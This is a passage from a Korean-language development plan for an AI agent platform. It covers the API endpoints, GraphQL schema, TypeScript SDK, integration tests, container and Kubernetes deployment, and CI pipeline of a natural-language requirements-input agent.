- [ ] 실험 생성 및 관리
- [ ] 사용자별 일관된 변형 할당
- [ ] 실시간 메트릭 수집
- [ ] 통계적 유의성 검증

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 3 (Tasks 4.5-4.6)

## 1. NL Input Agent (자연어 입력 에이전트) - 계속

### Task 4.5: NL Agent 통합 및 인터페이스

#### SubTask 4.5.1: RESTful API 엔드포인트 구현

**담당자**: API 개발자  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/api/endpoints/nl_input_endpoints.py
from fastapi import APIRouter, HTTPException, BackgroundTasks, UploadFile, File
from typing import List, Optional, Dict
from pydantic import BaseModel, Field
import asyncio

router = APIRouter(prefix="/api/v1/nl-input", tags=["nl-input"])

class NLInputRequest(BaseModel):
    description: str = Field(..., min_length=10, max_length=5000)
    session_id: Optional[str] = None
    user_id: str
    context: Optional[Dict[str, Any]] = None
    language: Optional[str] = "en"
    clarifications: Optional[Dict[str, str]] = None

class NLInputResponse(BaseModel):
    project_id: str
    status: str
    requirements: ProjectRequirements
    clarification_needed: bool
    clarification_questions: Optional[List[ClarificationQuestion]] = None
    processing_time: float
    confidence_score: float

class ClarificationResponse(BaseModel):
    session_id: str
    answers: Dict[str, Any]

@router.post("/analyze", response_model=NLInputResponse)
async def analyze_project_description(
    request: NLInputRequest,
    background_tasks: BackgroundTasks
):
    """프로젝트 설명 분석 엔드포인트"""

    start_time = asyncio.get_event_loop().time()

    try:
        # NL Agent 인스턴스 가져오기
        nl_agent = get_nl_agent_instance()

        # 세션 관리
        session_id = request.session_id or generate_session_id()
        context = await get_or_create_context(session_id, request.user_id)

        # 언어 감지 및 처리
        if request.language != "en":
            processed_input = await process_multilingual_input(
                request.description,
                request.language
            )
        else:
            processed_input = request.description

        # 요구사항 분석
        requirements = await nl_agent.process_description(
            processed_input,
            context=request.context
        )

        # 명확화 필요 여부 확인
        ambiguities = await identify_ambiguities(requirements)
        clarification_questions = []

        if ambiguities:
            clarification_questions = await generate_clarification_questions(
                ambiguities,
                context
            )

        # 프로젝트 레코드 생성
        project_id = await create_project_record(
            user_id=request.user_id,
            requirements=requirements,
            session_id=session_id
        )

        # 백그라운드 작업: 분석 결과 저장
        background_tasks.add_task(
            save_analysis_results,
            project_id,
            requirements,
            session_id
        )

        processing_time = asyncio.get_event_loop().time() - start_time

        return NLInputResponse(
            project_id=project_id,
            status="analysis_complete",
            requirements=requirements,
            clarification_needed=len(clarification_questions) > 0,
            clarification_questions=clarification_questions,
            processing_time=processing_time,
            confidence_score=calculate_confidence_score(requirements)
        )

    except Exception as e:
        logger.error(f"Error analyzing project description: {str(e)}")
        raise HTTPException(status_code=500, detail=str(e))

@router.post("/clarify/{session_id}")
async def process_clarification(
    session_id: str,
    response: ClarificationResponse
):
    """명확화 응답 처리"""

    try:
        # 세션 컨텍스트 로드
        context = await get_session_context(session_id)
        if not context:
            raise HTTPException(status_code=404, detail="Session not found")

        # NL Agent 인스턴스
        nl_agent = get_nl_agent_instance()

        # 명확화 응답 처리
        updated_requirements = await nl_agent.process_clarifications(
            context.requirements,
            response.answers
        )

        # 업데이트된 요구사항 저장
        await update_project_requirements(
            context.project_id,
            updated_requirements
        )

        # 추가 명확화 필요 여부 확인
        remaining_ambiguities = await identify_ambiguities(updated_requirements)

        return {
            "status": "clarification_processed",
            "updated_requirements": updated_requirements,
            "further_clarification_needed": len(remaining_ambiguities) > 0,
            "remaining_questions": remaining_ambiguities
        }

    except Exception as e:
        logger.error(f"Error processing clarification: {str(e)}")
        raise HTTPException(status_code=500, detail=str(e))

@router.post("/multimodal")
async def analyze_multimodal_input(
    description: Optional[str] = None,
    files: List[UploadFile] = File(None),
    user_id: str = Form(...),
    language: str = Form("en")
):
    """멀티모달 입력 분석 (텍스트 + 이미지/문서)"""

    try:
        # 멀티모달 프로세서 인스턴스
        multimodal_processor = get_multimodal_processor()

        # 입력 수집
        inputs = []
        if description:
            inputs.append(description)

        if files:
            for file in files:
                content = await file.read()
                inputs.append({
                    'type': file.content_type,
                    'filename': file.filename,
                    'content': content
                })

        if not inputs:
            raise HTTPException(
                status_code=400,
                detail="No input provided"
            )

        # 멀티모달 처리
        requirements = await multimodal_processor.process_multimodal_input(inputs)

        # 프로젝트 생성
        project_id = await create_project_record(
            user_id=user_id,
            requirements=requirements,
            input_type="multimodal"
        )

        return {
            "project_id": project_id,
            "status": "success",
            "requirements": requirements,
            "input_types_processed": [
                type(inp).__name__ for inp in inputs
            ]
        }

    except Exception as e:
        logger.error(f"Error processing multimodal input: {str(e)}")
        raise HTTPException(status_code=500, detail=str(e))

@router.websocket("/realtime/{session_id}")
async def realtime_analysis(websocket: WebSocket, session_id: str):
    """실시간 분석 웹소켓 엔드포인트"""

    await websocket.accept()

    try:
        nl_agent = get_nl_agent_instance()
        feedback_processor = RealtimeFeedbackProcessor(nl_agent)

        # 실시간 피드백 처리 시작
        await feedback_processor.handleRealtimeFeedback(
            session_id,
            websocket
        )

    except WebSocketDisconnect:
        logger.info(f"WebSocket disconnected for session {session_id}")
    except Exception as e:
        logger.error(f"WebSocket error: {str(e)}")
        await websocket.close(code=1000)
```

**검증 기준**:

- [ ] RESTful API 설계 원칙 준수
- [ ] 멀티모달 입력 지원
- [ ] WebSocket 실시간 통신
- [ ] 에러 처리 및 로깅

#### SubTask 4.5.2: GraphQL API 스키마 정의

**담당자**: GraphQL 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
// backend/src/api/graphql/nl-input-schema.ts
import { gql } from 'apollo-server-express';

export const nlInputTypeDefs = gql`
  type Query {
    # 프로젝트 요구사항 조회
    getProjectRequirements(projectId: ID!): ProjectRequirements

    # 세션 컨텍스트 조회
    getSessionContext(sessionId: ID!): SessionContext

    # 명확화 질문 조회
    getClarificationQuestions(sessionId: ID!): [ClarificationQuestion!]

    # 분석 히스토리 조회
    getAnalysisHistory(userId: ID!, limit: Int = 10): [AnalysisHistory!]
  }

  type Mutation {
    # 프로젝트 설명 분석
    analyzeProjectDescription(input: AnalyzeInput!): AnalysisResult!

    # 명확화 응답 처리
    processClarification(sessionId: ID!, answers: [ClarificationAnswer!]!): ClarificationResult!

    # 멀티모달 입력 분석
    analyzeMultimodal(input: MultimodalInput!): AnalysisResult!

    # 피드백 제출
    submitFeedback(projectId: ID!, feedback: FeedbackInput!): FeedbackResult!
  }

  type Subscription {
    # 실시간 분석 상태
    analysisProgress(sessionId: ID!): AnalysisProgress!

    # 명확화 질문 스트림
    clarificationStream(sessionId: ID!): ClarificationUpdate!
  }

  # 입력 타입
  input AnalyzeInput {
    description: String!
    userId: ID!
    language: String = "en"
    context: JSON
    preferences: ProjectPreferences
  }

  input MultimodalInput {
    textDescription: String
    files: [Upload!]
    userId: ID!
    language: String = "en"
  }

  input ProjectPreferences {
    projectType: ProjectType
    techStack: [String!]
    designStyle: String
    targetAudience: String
  }

  input ClarificationAnswer {
    questionId: ID!
    answer: String!
    confidence: Float
  }

  input FeedbackInput {
    rating: Int!
    accuracy: Float
    completeness: Float
    comments: String
    suggestions: [String!]
  }

  # 출력 타입
  type ProjectRequirements {
    id: ID!
    description: String!
    projectType: ProjectType!
    technicalRequirements: [TechnicalRequirement!]!
    nonFunctionalRequirements: [NonFunctionalRequirement!]!
    technologyPreferences: TechnologyPreferences!
    constraints: [Constraint!]!
    extractedEntities: JSON!
    confidence: Float!
  }

  type TechnicalRequirement {
    id: ID!
    category: String!
    description: String!
    priority: Priority!
    complexity: Complexity!
    dependencies: [ID!]
  }

  type NonFunctionalRequirement {
    id: ID!
    type: NFRType!
    description: String!
    metric: String
    target: String
    priority: Priority!
  }

  type TechnologyPreferences {
    frontend: [String!]
    backend: [String!]
    database: [String!]
    cloud: [String!]
    other: JSON
  }

  type Constraint {
    id: ID!
    type: ConstraintType!
    description: String!
    impact: Impact!
  }

  type AnalysisResult {
    projectId: ID!
    status: AnalysisStatus!
    requirements: ProjectRequirements!
    clarificationNeeded: Boolean!
    clarificationQuestions: [ClarificationQuestion!]
    processingTime: Float!
    confidenceScore: Float!
  }

  type ClarificationQuestion {
    id: ID!
    category: String!
    question: String!
    options: [String!]
    required: Boolean!
    impact: Impact!
    context: String
  }

  type ClarificationResult {
    status: String!
    updatedRequirements: ProjectRequirements!
    furtherClarificationNeeded: Boolean!
    remainingQuestions: [ClarificationQuestion!]
  }

  type AnalysisProgress {
    sessionId: ID!
    status: String!
    progress: Float!
    currentStep: String!
    estimatedTimeRemaining: Int
    messages: [String!]
  }

  # Enums
  enum ProjectType {
    WEB_APPLICATION
    MOBILE_APPLICATION
    API_SERVICE
    CLI_TOOL
    DESKTOP_APPLICATION
    LIBRARY
    MICROSERVICE
  }

  enum Priority {
    LOW
    MEDIUM
    HIGH
    CRITICAL
  }

  enum Complexity {
    SIMPLE
    MODERATE
    COMPLEX
    VERY_COMPLEX
  }

  enum NFRType {
    PERFORMANCE
    SECURITY
    USABILITY
    RELIABILITY
    SCALABILITY
    MAINTAINABILITY
    PORTABILITY
  }

  enum ConstraintType {
    TECHNICAL
    BUSINESS
    REGULATORY
    RESOURCE
    TIME
  }

  enum Impact {
    LOW
    MEDIUM
    HIGH
  }

  enum AnalysisStatus {
    PENDING
    ANALYZING
    CLARIFICATION_NEEDED
    COMPLETED
    FAILED
  }
`;

// Resolvers
export const nlInputResolvers = {
  Query: {
    getProjectRequirements: async (_, { projectId }, { dataSources }) => {
      return dataSources.projectAPI.getRequirements(projectId);
    },

    getSessionContext: async (_, { sessionId }, { dataSources }) => {
      return dataSources.sessionAPI.getContext(sessionId);
    },

    getClarificationQuestions: async (_, { sessionId }, { dataSources }) => {
      return dataSources.nlAPI.getClarificationQuestions(sessionId);
    },

    getAnalysisHistory: async (_, { userId, limit }, { dataSources }) => {
      return dataSources.nlAPI.getAnalysisHistory(userId, limit);
    },
  },

  Mutation: {
    analyzeProjectDescription: async (_, { input }, { dataSources }) => {
      const nlAgent = dataSources.nlAgent;

      // 분석 시작
      const startTime = Date.now();

      try {
        // 요구사항 분석
        const requirements = await nlAgent.processDescription(input.description, {
          language: input.language,
          context: input.context,
          preferences: input.preferences,
        });

        // 명확화 필요 여부 확인
        const ambiguities = await nlAgent.identifyAmbiguities(requirements);
        const clarificationQuestions =
          ambiguities.length > 0 ? await nlAgent.generateClarificationQuestions(ambiguities) : [];

        // 프로젝트 생성
        const projectId = await dataSources.projectAPI.createProject({
          userId: input.userId,
          requirements,
          inputType: 'text',
        });

        const processingTime = (Date.now() - startTime) / 1000;

        return {
          projectId,
          status: 'COMPLETED',
          requirements,
          clarificationNeeded: clarificationQuestions.length > 0,
          clarificationQuestions,
          processingTime,
          confidenceScore: requirements.confidence,
        };
      } catch (error) {
        throw new Error(`Analysis failed: ${error.message}`);
      }
    },

    processClarification: async (_, { sessionId, answers }, { dataSources }) => {
      // 명확화 처리 로직
      const context = await dataSources.sessionAPI.getContext(sessionId);
      const nlAgent = dataSources.nlAgent;

      const updatedRequirements = await nlAgent.processClarifications(
        context.requirements,
        answers,
      );

      // 추가 명확화 필요 여부
      const remainingAmbiguities = await nlAgent.identifyAmbiguities(updatedRequirements);

      return {
        status: 'SUCCESS',
        updatedRequirements,
        furtherClarificationNeeded: remainingAmbiguities.length > 0,
        remainingQuestions: remainingAmbiguities,
      };
    },
  },

  Subscription: {
    analysisProgress: {
      subscribe: (_, { sessionId }, { pubsub }) => {
        return pubsub.asyncIterator([`ANALYSIS_PROGRESS_${sessionId}`]);
      },
    },

    clarificationStream: {
      subscribe: (_, { sessionId }, { pubsub }) => {
        return pubsub.asyncIterator([`CLARIFICATION_${sessionId}`]);
      },
    },
  },
};
```

**검증 기준**:

- [ ] 완전한 GraphQL 스키마 정의
- [ ] Query, Mutation, Subscription 지원
- [ ] 타입 안정성 보장
- [ ] 실시간 업데이트 지원

#### SubTask 4.5.3: SDK 및 클라이언트 라이브러리

**담당자**: SDK 개발자  
**예상 소요시간**: 14시간

**작업 내용**:

```typescript
// sdk/typescript/src/nl-input-client.ts
export interface NLInputClientConfig {
  apiUrl: string;
  apiKey?: string;
  timeout?: number;
  retryConfig?: RetryConfig;
  websocketUrl?: string;
}

export class NLInputClient {
  private config: NLInputClientConfig;
  private httpClient: AxiosInstance;
  private wsClient?: WebSocket;
  private eventEmitter: EventEmitter;

  constructor(config: NLInputClientConfig) {
    this.config = config;
    this.eventEmitter = new EventEmitter();

    // HTTP 클라이언트 설정
    this.httpClient = axios.create({
      baseURL: config.apiUrl,
      timeout: config.timeout || 30000,
      headers: {
        'Content-Type': 'application/json',
        ...(config.apiKey && { 'X-API-Key': config.apiKey }),
      },
    });

    // 재시도 로직 설정
    if (config.retryConfig) {
      this.setupRetry(config.retryConfig);
    }
  }

  /**
   * 프로젝트 설명 분석
   */
  async analyzeProjectDescription(params: {
    description: string;
    userId: string;
    language?: string;
    context?: any;
  }): Promise<AnalysisResult> {
    try {
      const response = await this.httpClient.post('/analyze', params);
      return response.data;
    } catch (error) {
      throw this.handleError(error);
    }
  }

  /**
   * 명확화 응답 처리
   */
  async processClarification(
    sessionId: string,
    answers: Record<string, any>,
  ): Promise<ClarificationResult> {
    try {
      const response = await this.httpClient.post(`/clarify/${sessionId}`, { answers });
      return response.data;
    } catch (error) {
      throw this.handleError(error);
    }
  }

  /**
   * 멀티모달 입력 분석
   */
  async analyzeMultimodal(params: {
    description?: string;
    files?: File[];
    userId: string;
    language?: string;
  }): Promise<AnalysisResult> {
    const formData = new FormData();

    if (params.description) {
      formData.append('description', params.description);
    }

    if (params.files) {
      params.files.forEach((file, index) => {
        formData.append(`files`, file);
      });
    }

    formData.append('user_id', params.userId);
    formData.append('language', params.language || 'en');

    try {
      const response = await this.httpClient.post('/multimodal', formData, {
        headers: {
          'Content-Type': 'multipart/form-data',
        },
      });
      return response.data;
    } catch (error) {
      throw this.handleError(error);
    }
  }

  /**
   * 실시간 분석 시작
   */
  startRealtimeAnalysis(sessionId: string): RealtimeAnalysisSession {
    const wsUrl = `${this.config.websocketUrl}/realtime/${sessionId}`;
    this.wsClient = new WebSocket(wsUrl);

    const session = new RealtimeAnalysisSession(this.wsClient, this.eventEmitter);

    this.wsClient.onopen = () => {
      this.eventEmitter.emit('connected', { sessionId });
    };

    this.wsClient.onmessage = (event) => {
      const data = JSON.parse(event.data);
      this.eventEmitter.emit(data.type, data);
    };

    this.wsClient.onerror = (error) => {
      this.eventEmitter.emit('error', error);
    };

    this.wsClient.onclose = () => {
      this.eventEmitter.emit('disconnected', { sessionId });
    };

    return session;
  }

  /**
   * GraphQL 쿼리 실행
   */
  async graphql<T = any>(query: string, variables?: Record<string, any>): Promise<T> {
    try {
      const response = await this.httpClient.post('/graphql', {
        query,
        variables,
      });

      if (response.data.errors) {
        throw new GraphQLError(response.data.errors);
      }

      return response.data.data;
    } catch (error) {
      throw this.handleError(error);
    }
  }

  /**
   * 이벤트 리스너 등록
   */
  on(event: string, handler: (data: any) => void): void {
    this.eventEmitter.on(event, handler);
  }

  /**
   * 이벤트 리스너 제거
   */
  off(event: string, handler: (data: any) => void): void {
    this.eventEmitter.off(event, handler);
  }

  private setupRetry(config: RetryConfig): void {
    axiosRetry(this.httpClient, {
      retries: config.maxRetries || 3,
      retryDelay: axiosRetry.exponentialDelay,
      retryCondition: (error) => {
        return (
          axiosRetry.isNetworkOrIdempotentRequestError(error) || error.response?.status === 429
        );
      },
    });
  }

  private handleError(error: any): Error {
    if (error.response) {
      // 서버 응답 에러
      return new APIError(
        error.response.data.message || 'Server error',
        error.response.status,
        error.response.data,
      );
    } else if (error.request) {
      // 네트워크 에러
      return new NetworkError('Network error occurred');
    } else {
      // 기타 에러
      return new Error(error.message);
    }
  }
}

// 실시간 분석 세션 클래스
export class RealtimeAnalysisSession {
  constructor(
    private ws: WebSocket,
    private eventEmitter: EventEmitter,
  ) {}

  /**
   * 피드백 전송
   */
  sendFeedback(feedback: {
    type: 'clarification' | 'correction' | 'addition';
    content: string;
  }): void {
    this.ws.send(JSON.stringify(feedback));
  }

  /**
   * 세션 종료
   */
  close(): void {
    this.ws.close();
  }

  /**
   * 이벤트 구독
   */
  on(event: string, handler: (data: any) => void): void {
    this.eventEmitter.on(event, handler);
  }
}

// React Hook 예제
export function useNLInput(config: NLInputClientConfig) {
  const [client] = useState(() => new NLInputClient(config));
  const [loading, setLoading] = useState(false);
  const [error, setError] = useState<Error | null>(null);
  const [result, setResult] = useState<AnalysisResult | null>(null);

  const analyze = useCallback(
    async (description: string, userId: string) => {
      setLoading(true);
      setError(null);

      try {
        const result = await client.analyzeProjectDescription({
          description,
          userId,
        });
        setResult(result);
        return result;
      } catch (err) {
        setError(err as Error);
        throw err;
      } finally {
        setLoading(false);
      }
    },
    [client],
  );

  return {
    analyze,
    loading,
    error,
    result,
    client,
  };
}
```

**검증 기준**:

- [ ] TypeScript SDK 구현
- [ ] 전체 API 기능 지원
- [ ] React Hook 제공
- [ ] 에러 처리 및 재시도 로직

#### SubTask 4.5.4: 통합 테스트 스위트

**담당자**: QA 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/tests/integration/test_nl_input_integration.py
import pytest
import asyncio
from httpx import AsyncClient
from unittest.mock import Mock, patch
import websockets

@pytest.mark.integration
class TestNLInputIntegration:
    """NL Input Agent 통합 테스트"""

    @pytest.fixture
    async def client(self):
        async with AsyncClient(app=app, base_url="http://test") as client:
            yield client

    @pytest.fixture
    def test_data(self):
        return {
            "simple_project": {
                "description": "I need a task management web app with user authentication",
                "expected_type": "web_application",
                "expected_features": ["user_authentication", "task_management"]
            },
            "complex_project": {
                "description": """
                Build a scalable e-commerce platform with microservices architecture.
                Must support 1M+ users, real-time inventory, payment processing,
                and multi-language support. Need mobile apps for iOS and Android.
                """,
                "expected_type": "ecommerce",
                "expected_architecture": "microservices"
            },
            "ambiguous_project": {
                "description": "Make a good app",
                "expect_clarification": True
            }
        }

    @pytest.mark.asyncio
    async def test_simple_project_analysis(self, client, test_data):
        """간단한 프로젝트 분석 테스트"""

        response = await client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": test_data["simple_project"]["description"],
                "user_id": "test-user-123"
            }
        )

        assert response.status_code == 200
        data = response.json()

        assert data["status"] == "analysis_complete"
        assert data["requirements"]["project_type"] == test_data["simple_project"]["expected_type"]

        # 기능 요구사항 확인
        tech_reqs = data["requirements"]["technical_requirements"]
        for expected_feature in test_data["simple_project"]["expected_features"]:
            assert any(expected_feature in req for req in tech_reqs)

    @pytest.mark.asyncio
    async def test_complex_project_analysis(self, client, test_data):
        """복잡한 프로젝트 분석 테스트"""

        response = await client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": test_data["complex_project"]["description"],
                "user_id": "test-user-123"
            }
        )

        assert response.status_code == 200
        data = response.json()

        # 아키텍처 패턴 확인
        assert test_data["complex_project"]["expected_architecture"] in str(data["requirements"])

        # 비기능 요구사항 확인
        nfr = data["requirements"]["non_functional_requirements"]
        assert any("1M" in req or "million" in req for req in nfr)

        # 플랫폼 확인
        tech_prefs = data["requirements"]["technology_preferences"]
        assert "iOS" in tech_prefs.get("platforms", [])
        assert "Android" in tech_prefs.get("platforms", [])

    @pytest.mark.asyncio
    async def test_clarification_flow(self, client, test_data):
        """명확화 플로우 테스트"""

        # 1. 모호한 설명 분석
        response = await client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": test_data["ambiguous_project"]["description"],
                "user_id": "test-user-123"
            }
        )

        assert response.status_code == 200
        data = response.json()

        assert data["clarification_needed"] == True
        assert len(data["clarification_questions"]) > 0

        session_id = data.get("session_id", "test-session")
        question_id = data["clarification_questions"][0]["id"]

        # 2. 명확화 응답 제출
        clarification_response = await client.post(
            f"/api/v1/nl-input/clarify/{session_id}",
            json={
                "session_id": session_id,
                "answers": {
                    question_id: "A web application for task management"
                }
            }
        )

        assert clarification_response.status_code == 200
        clarify_data = clarification_response.json()

        assert clarify_data["status"] == "clarification_processed"
        assert clarify_data["updated_requirements"] is not None

    @pytest.mark.asyncio
    async def test_multimodal_input(self, client, tmp_path):
        """멀티모달 입력 테스트"""

        # 테스트 이미지 생성
        test_image = tmp_path / "mockup.png"
        test_image.write_bytes(b"fake image data")

        # 테스트 PDF 생성
        test_pdf = tmp_path / "requirements.pdf"
        test_pdf.write_bytes(b"fake pdf data")

        with open(test_image, "rb") as img, open(test_pdf, "rb") as pdf:
            response = await client.post(
                "/api/v1/nl-input/multimodal",
                data={"user_id": "test-user-123", "language": "en"},
                files=[
                    ("files", ("mockup.png", img, "image/png")),
                    ("files", ("requirements.pdf", pdf, "application/pdf"))
                ]
            )

        assert response.status_code == 200
        data = response.json()

        assert data["status"] == "success"
        assert len(data["input_types_processed"]) == 2

    @pytest.mark.asyncio
    async def test_websocket_realtime_analysis(self):
        """WebSocket 실시간 분석 테스트"""

        session_id = "test-ws-session"

        async with websockets.connect(
            f"ws://localhost:8000/api/v1/nl-input/realtime/{session_id}"
        ) as websocket:
            # 초기 연결 확인
            await asyncio.sleep(0.1)

            # 피드백 전송
            feedback = {
                "type": "clarification",
                "content": "The app should support team collaboration"
            }
            await websocket.send(json.dumps(feedback))

            # 응답 수신
            response = await websocket.recv()
            data = json.loads(response)

            assert data["type"] == "feedback_received"

            # 처리 결과 수신
            result = await asyncio.wait_for(websocket.recv(), timeout=5.0)
            result_data = json.loads(result)

            assert result_data["type"] == "feedback_processed"
            assert "updated_requirements" in result_data

    @pytest.mark.asyncio
    async def test_performance_requirements(self, client):
        """성능 요구사항 테스트"""

        import time

        descriptions = [
            "Simple web app with login",
            "E-commerce site with payment",
            "Mobile app for social networking",
            "API service for data processing",
            "Desktop application for video editing"
        ]

        start_time = time.time()

        # 병렬 요청
        tasks = []
        for desc in descriptions:
            task = client.post(
                "/api/v1/nl-input/analyze",
                json={
                    "description": desc,
                    "user_id": f"user-{hash(desc)}"
                }
            )
            tasks.append(task)

        responses = await asyncio.gather(*tasks)

        end_time = time.time()
        total_time = end_time - start_time

        # 모든 요청 성공 확인
        for response in responses:
            assert response.status_code == 200

        # 평균 응답 시간 확인 (2초 이하)
        avg_time = total_time / len(descriptions)
        assert avg_time < 2.0, f"Average response time {avg_time}s exceeds 2s limit"

    @pytest.mark.asyncio
    async def test_error_handling(self, client):
        """에러 처리 테스트"""

        # 1. 너무 짧은 설명
        response = await client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": "app",
                "user_id": "test-user"
            }
        )

        assert response.status_code == 422  # Validation error

        # 2. 잘못된 언어 코드
        response = await client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": "Build a web application",
                "user_id": "test-user",
                "language": "xyz"  # Invalid language
            }
        )

        assert response.status_code == 400

        # 3. 존재하지 않는 세션
        response = await client.post(
            "/api/v1/nl-input/clarify/non-existent-session",
            json={"answers": {}}
        )

        assert response.status_code == 404
```

**검증 기준**:

- [ ] 전체 API 엔드포인트 테스트
- [ ] 명확화 플로우 검증
- [ ] WebSocket 통신 테스트
- [ ] 성능 요구사항 충족

---

### Task 4.6: NL Agent 배포 및 운영

#### SubTask 4.6.1: 컨테이너화 및 오케스트레이션

**담당자**: DevOps 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```dockerfile
# backend/agents/nl-input/Dockerfile
FROM python:3.11-slim as builder

# 빌드 의존성 설치
RUN apt-get update && apt-get install -y \
    gcc \
    g++ \
    make \
    libffi-dev \
    libssl-dev \
    && rm -rf /var/lib/apt/lists/*

# 작업 디렉토리 설정
WORKDIR /app

# 의존성 파일 복사
COPY requirements.txt requirements-agent.txt ./

# 의존성 설치
RUN pip install --no-cache-dir --upgrade pip && \
    pip install --no-cache-dir -r requirements.txt && \
    pip install --no-cache-dir -r requirements-agent.txt

# 프로덕션 이미지
FROM python:3.11-slim

# 런타임 의존성 설치
RUN apt-get update && apt-get install -y \
    libxml2 \
    libxslt1.1 \
    && rm -rf /var/lib/apt/lists/*

# 비루트 사용자 생성
RUN useradd -m -u 1000 agent && \
    mkdir -p /app/logs /app/cache && \
    chown -R agent:agent /app

WORKDIR /app

# 빌더에서 설치된 패키지 복사
COPY --from=builder /usr/local/lib/python3.11/site-packages /usr/local/lib/python3.11/site-packages
COPY --from=builder /usr/local/bin /usr/local/bin

# 애플리케이션 코드 복사
COPY --chown=agent:agent . .

# 환경 변수
ENV PYTHONUNBUFFERED=1 \
    PYTHONDONTWRITEBYTECODE=1 \
    AGENT_NAME=nl-input-agent \
    PORT=8080

# 헬스체크
HEALTHCHECK --interval=30s --timeout=10s --start-period=40s --retries=3 \
    CMD python -c "import requests; requests.get('http://localhost:8080/health')"

# 비루트 사용자로 전환
USER agent

# 포트 노출
EXPOSE 8080

# 시작 명령
CMD ["python", "-m", "uvicorn", "src.main:app", "--host", "0.0.0.0", "--port", "8080"]
```

```yaml
# k8s/nl-input-agent/deployment.yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nl-input-agent
  namespace: t-developer
  labels:
    app: nl-input-agent
    component: agent
    version: v1
spec:
  replicas: 3
  selector:
    matchLabels:
      app: nl-input-agent
  template:
    metadata:
      labels:
        app: nl-input-agent
        component: agent
      annotations:
        prometheus.io/scrape: 'true'
        prometheus.io/port: '8080'
        prometheus.io/path: '/metrics'
    spec:
      serviceAccountName: nl-input-agent
      containers:
        - name: nl-input-agent
          image: t-developer/nl-input-agent:latest
          imagePullPolicy: Always
          ports:
            - containerPort: 8080
              name: http
              protocol: TCP
          env:
            - name: AGENT_NAME
              value: 'nl-input-agent'
            - name: AWS_REGION
              value: 'us-east-1'
            - name: BEDROCK_MODEL_ID
              value: 'anthropic.claude-3-sonnet-v2:0'
            - name: LOG_LEVEL
              value: 'INFO'
            - name: REDIS_URL
              valueFrom:
                secretKeyRef:
                  name: redis-credentials
                  key: url
            - name: DYNAMODB_TABLE
              value: 't-developer-nl-contexts'
          envFrom:
            - secretRef:
                name: nl-agent-secrets
            - configMapRef:
                name: nl-agent-config
          resources:
            requests:
              memory: '512Mi'
              cpu: '500m'
            limits:
              memory: '2Gi'
              cpu: '2000m'
          livenessProbe:
            httpGet:
              path: /health
              port: 8080
            initialDelaySeconds: 30
            periodSeconds: 10
            timeoutSeconds: 5
            failureThreshold: 3
          readinessProbe:
            httpGet:
              path: /ready
              port: 8080
            initialDelaySeconds: 10
            periodSeconds: 5
            timeoutSeconds: 3
            failureThreshold: 3
          volumeMounts:
            - name: cache
              mountPath: /app/cache
            - name: models
              mountPath: /app/models
              readOnly: true
      volumes:
        - name: cache
          emptyDir:
            sizeLimit: 1Gi
        - name: models
          configMap:
            name: nl-agent-models
---
apiVersion: v1
kind: Service
metadata:
  name: nl-input-agent
  namespace: t-developer
  labels:
    app: nl-input-agent
spec:
  selector:
    app: nl-input-agent
  ports:
    - port: 80
      targetPort: 8080
      protocol: TCP
      name: http
  type: ClusterIP
---
apiVersion: autoscaling/v2
kind: HorizontalPodAutoscaler
metadata:
  name: nl-input-agent-hpa
  namespace: t-developer
spec:
  scaleTargetRef:
    apiVersion: apps/v1
    kind: Deployment
    name: nl-input-agent
  minReplicas: 3
  maxReplicas: 10
  metrics:
    - type: Resource
      resource:
        name: cpu
        target:
          type: Utilization
          averageUtilization: 70
    - type: Resource
      resource:
        name: memory
        target:
          type: Utilization
          averageUtilization: 80
    - type: Pods
      pods:
        metric:
          name: http_requests_per_second
        target:
          type: AverageValue
          averageValue: '100'
```

**검증 기준**:

- [ ] Docker 이미지 최적화 (멀티스테이지 빌드)
- [ ] Kubernetes 배포 구성
- [ ] 자동 스케일링 설정
- [ ] 헬스체크 구현

#### SubTask 4.6.2: CI/CD 파이프라인 구성

**담당자**: DevOps 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```yaml
# .github/workflows/nl-input-agent-ci.yml
name: NL Input Agent CI/CD

on:
  push:
    branches: [main, develop]
    paths:
      - 'backend/agents/nl-input/**'
      - '.github/workflows/nl-input-agent-ci.yml'
  pull_request:
    branches: [main]
    paths:
      - 'backend/agents/nl-input/**'

env:
  AGENT_NAME: nl-input-agent
  AWS_REGION: us-east-1
  ECR_REPOSITORY: t-developer/nl-input-agent

jobs:
  test:
    runs-on: ubuntu-latest
    strategy:
      matrix:
        python-version: [3.9, 3.11]

    steps:
      - uses: actions/checkout@v3

      - name: Set up Python
        uses: actions/setup-python@v4
        with:
          python-version: ${{ matrix.python-version }}

      - name: Cache dependencies
        uses: actions/cache@v3
        with:
          path: ~/.cache/pip
          key: ${{ runner.os }}-pip-${{ hashFiles('**/requirements*.txt') }}
          restore-keys: |
            ${{ runner.os }}-pip-

      - name: Install dependencies
        run: |
          cd backend/agents/nl-input
          pip install -r requirements.txt
          pip install -r requirements-dev.txt

      - name: Lint with flake8
        run: |
          cd backend/agents/nl-input
          flake8 src tests --config=.flake8

      - name: Type check with mypy
        run: |
          cd backend/agents/nl-input
          mypy src --config-file=mypy.ini

      - name: Test with pytest
        run: |
          cd backend/agents/nl-input
          pytest tests/ -v --cov=src --cov-report=xml --cov-report=html
        env:
          PYTHONPATH: ${{ github.workspace }}/backend/agents/nl-input

      - name: Upload coverage
        uses: codecov/codecov-action@v3
        with:
          file: ./backend/agents/nl-input/coverage.xml
          flags: nl-input-agent
          name: nl-input-agent-coverage

  security:
    runs-on: ubuntu-latest
    needs: test

    steps:
      - uses: actions/checkout@v3

      - name: Run Trivy vulnerability scanner
        uses: aquasecurity/trivy-action@master
        with:
          scan-type: 'fs'
          scan-ref: 'backend/agents/nl-input'
          format: 'sarif'
          output: 'trivy-results.sarif'

      - name: Upload Trivy scan results
        uses: github/codeql-action/upload-sarif@v2
        with:
          sarif_file: 'trivy-results.sarif'

      - name: Run Bandit security linter
        run: |
          pip install bandit
          cd backend/agents/nl-input
          bandit -r src/ -f json -o bandit-report.json

